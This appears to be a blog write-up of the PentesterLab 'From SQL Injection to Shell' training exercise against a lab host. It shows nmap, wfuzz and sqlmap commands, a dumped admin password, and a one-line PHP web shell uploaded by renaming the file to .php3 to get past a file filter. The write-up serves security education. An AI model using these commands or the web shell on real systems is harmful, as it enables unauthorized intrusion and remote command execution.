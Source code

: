 ```yaml
---
layout: post
title: "Pentesterlab--From SQL Injection to Shell"
date: 2016-03-29 16:16:56 -0400
comments: true
categories: [pentesterlab, sql injection]
---
```


*All warfare is based on deception. Hence, when we are able to attack, we must seem unable; when using our forces, we must appear inactive; when we are near, we must make the enemy believe we are far away; when far away, we must make him believe we are near.* ----- The Art of War

This course details the exploitation of SQL injection in a PHP based website and how an attacker can use it to gain access to the administration pages.

Difficluty: 2/5
<!--more-->

###Forces:

* Nmap
* NC 
* wfuzz
* sqlmap
* Burp 
* webshell

###Detail Assessment and Planning

* Port scan to identify opened ports, running services and services version. ----Nmap
* Check php version and other http headers. ----NC
* Scan all requests and pages. ----wfuzz
* SQL injection and get admin password. ---- sqlmap
* Get the php request path. ----Burp
* Get the web shell ---- webshell


###Waging War

####Weaknesses and Strengths

Used Nmap to idenfity opened ports. TCP port 80 is opened and Apache service is running on it.

{% img  /images/blog/pentesterlab/fromsqltoshell/Selection_001.png   [title manually exploit [alt text]] %}

By checking the application HTTP headers with nc, I can get php version.

```
GET / HTTP/1.1
Host: 192.168.79.165
``` 

{% img  /images/blog/pentesterlab/fromsqltoshell/Selection_002.png   [title manually exploit [alt text]] %}

The tool wfuzz can be used to detect directories and pages on the web server using brute force. 

```
 python wfuzz.py -c -z file,wordlist/general/big.txt --hc 404 http://192.168.79.165/FUZZ 
```
{% img  /images/blog/pentesterlab/fromsqltoshell/Selection_003.png   [title manually exploit [alt text]] %}

```
 python wfuzz.py -c -z file,wordlist/general/big.txt --hc 404 http://192.168.79.165/FUZZ.php 
```

{% img  /images/blog/pentesterlab/fromsqltoshell/Selection_004.png   [title manually exploit [alt text]] %}

####Attack

There is one page I want to try cat.php

In order to upload my websell, one thing I need to do is get admin. I use sqlmap to dump user's information:

`sqlmap -u " sqlmap -u "http://192.168.79.165/cat.php?id=2" --dump"`, after a while, I got this:

{% img  /images/blog/pentesterlab/fromsqltoshell/Selection_005.png   [title manually exploit [alt text]] %}

looks like I get the admin's password is P4ssw0rd and md5 hash. I also use John and ripper to verifyed the md5, the result matches P4ssw0rd.

Lets try to login use this password:

{% img  /images/blog/pentesterlab/fromsqltoshell/Selection_006.png   [title manually exploit [alt text]] %}


success..... keep going.

There is a page can be used to upload new picture. 
{% img  /images/blog/pentesterlab/fromsqltoshell/Selection_007.png   [title manually exploit [alt text]] %}

Let's try to upload php web shell.
```php upload1.php
<?php
  system($_GET["cmd"]);
?>
```

The result is:

{% img  /images/blog/pentesterlab/fromsqltoshell/Selection_008.png   [title manually exploit [alt text]] %}

The application filters .php file.

Okay, let's try to change the file name to upload2.php3 with the same code.

{% img  /images/blog/pentesterlab/fromsqltoshell/Selection_009.png   [title manually exploit [alt text]] %}

done


Then I want to get the path to that page using Burp

{% img  /images/blog/pentesterlab/fromsqltoshell/Selection_010.png   [title manually exploit [alt text]] %}


get the shell:

{% img  /images/blog/pentesterlab/fromsqltoshell/Selection_011.png   [title manually exploit [alt text]] %}



{% img  /images/blog/pentesterlab/shellshock/game_over.jpg [title manually exploit [alt text]] %}



